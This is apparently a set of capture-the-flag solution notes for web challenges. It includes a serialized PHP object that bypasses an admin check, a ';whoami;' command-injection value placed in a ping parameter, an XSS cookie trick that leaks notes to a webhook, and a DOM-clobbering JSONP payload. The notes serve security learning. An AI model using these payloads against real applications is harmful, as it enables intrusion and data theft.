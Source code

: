 
Author writeups: https://abdulhaq.me/blog/iron-ctf-2024/#web-secret-notes


# JWT hunt:
Different parts of jet token secret key in :
/robots.txt
/sitemap.xml
in cookies
Send HEAD request to /secretkeypart4 and key is in the headers.

# b64site viewer:

Everything in discord question.

# cerealShop:
php objection injection. Everything in discord question.
Serialized object which will give flag:
```
<?php

class Admin {
    public $is_admin;
    public $your_secret;
    public $my_secret;
}

$obj = new Admin();
$obj->is_admin = "0";          // Assigning a string "0" to is_admin
$obj->your_secret = NULL;      // Setting your_secret to NULL, can set to anything dosen't have to be NULL 
$obj->my_secret = &$obj->your_secret;  // Assigning your_secret to my_secret

$serialized = serialize($obj);
echo $serialized;

?>
```
Output:
```
O:5:"Admin":3:{s:8:"is_admin";s:1:"0";s:11:"your_secret";N;s:9:"my_secret";R:3;}```

Still trying to wrap my head around why this works because in the actual server obj->my_secret = $FLAG is done before running the if check. 
But for some reason if we send this object my_secret still references your_secret and not the value of FLAG which it is being set to 
and thus the my_secret = your_secret if condition gets bypassed.
# moviereviewapp:
git dump the application. Go through the commits to find about  the servermonitor/admin directory which had a hidden admin login page. The creds can be seen hardcoded while going through other commits.
Logging into the admin panel we see a page which can be used to ping an ip address.
Going through the source code of the ping app through the git logs we see this:

```
def ping_ip(ip, count):
    if re.match(r'^((25[0-5]|(2[0-4]|1\d|[1-9]|)\d)\.?\b){4}$', ip):
        return subprocess.check_output(f"ping -c {count} {ip}", shell=True).decode()
    else:
        return "Invalid ip address and count!"
```

The count parameter has no validation so we can inject arbitrary commands.
So finally:
Exploit Scenario:
1. Login to the admin panel using the credntials.
2. Supply a valid IP in the IP address and intercept the request. Change the count to value as:
;whoami;

Final payload on Server side will work like:
ping -c ;whoami; x.x.x.x.

# Loan App:
Had to exploit the http smuggling vulnerability in the haproxy version being used:
https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/

# Secret Notes:
The main concept of this chall is reflected XSS via HTML injection in alt={name} and leak memo with it.
Set Cookie as session={session};path=/profile; The priority of cookie is sort by path, and when admin bot logins, It will redirect to /profile page,
and then XSS trriggers and leak notes to webhook.

# Beautiful Buttons:

# HTML personality analyser:


# Hiring platform:

The intended approach was to manipulate the DOM by using:

```html
<form id="PRODUCTION"></form>
```

Then, an input element was added with the `form` attribute:

```html
<input type="text" name="remark" value="SELECT NOW!!" form="select_humans">
```

This approach leverages the `form` attribute, allowing the input's value to be submitted with the form specified by the form ID (`select_humans`) elsewhere on the page. Additionally, a JSONP endpoint in WordPress was used to trigger a button click.

```html
<form id="PRODUCTION">
    <input type="text" name="remark" value="SELECT NOW!!" form="select_humans">
</form>
<iframe srcdoc="<script src='/blog/wp-json/wp/v2/users/1?_jsonp=window.parent.document.body.firstElementChild.nextElementSibling.nextElementSibling.firstElementChild.submit'></script>"></iframe>
```
